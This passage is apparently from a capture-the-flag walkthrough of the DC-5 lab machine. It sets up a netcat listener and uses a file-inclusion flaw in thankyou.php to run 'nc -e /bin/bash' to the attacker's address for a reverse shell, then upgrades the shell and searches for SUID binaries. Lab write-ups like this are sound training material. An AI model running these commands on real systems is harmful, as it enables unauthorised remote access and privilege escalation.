


3.5 Netcat shell with cmd
We can get a “reverse shell” over our “netcat” listener which we'll execute alongside.
a) On your Kali Linux terminal type the following.
$nc
-lvp 1234
b) Navigate to the following direction.
http://192.168.12.59/thankyou.php?file=/var/log/nginx/access.log&cmd=nc -e /bin/bash 192.168.12.56 1234
You'll see on your Kali Linux shell the following.
Output:

You have a “reverse shell”.
c) Upgrade it with python.
Run the following commands on your “reverse shell”.
python -c
'import pty;pty.spawn("/bin/bash")'
Output:
www-data@dc-5:~/html$
d) Check the binaries that has SUID bit.
www-data@dc-5
:
~
/
html$
find
/
-perm
/
4000 2>
/
dev
/
null

This SUID set “screen” file seems interesting. It’s not normal to see it here and it's used for terminal sessions.
Index